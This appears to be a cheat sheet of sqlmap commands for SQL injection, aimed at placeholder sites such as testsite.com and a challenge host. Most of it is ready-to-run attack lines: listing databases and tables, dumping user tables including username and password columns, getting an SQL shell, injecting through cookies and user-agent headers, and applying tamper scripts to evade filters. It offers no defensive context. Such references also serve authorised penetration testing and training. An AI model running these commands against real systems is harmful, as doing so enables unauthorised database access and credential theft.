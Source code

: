 # Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users --dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" --data="username=admin&password=admin&submit=Submit" -D social_mccodes -T users --dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

**Apply custom tamper script**

Create a tamper script called "mytamper.py" in the /usr/share/sqlmap/tamper

<pre>sqlmap -u "http://2.challenge.sqli.site/view_book.php?id=3" --cookie="userchl2_info=" -p userchl2_info --level=2 --dbms=mysql --tamper=mytamper --banner</pre>


**Get Req Example**
<pre>sqlmap -u "url/ajax.php?fun=login&username=test&password=test" --keep-alive</pre>

**Post Req Example**

<pre>sqlmap -u "url" --data="fun=login&username=test&password=test"</pre>


# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**

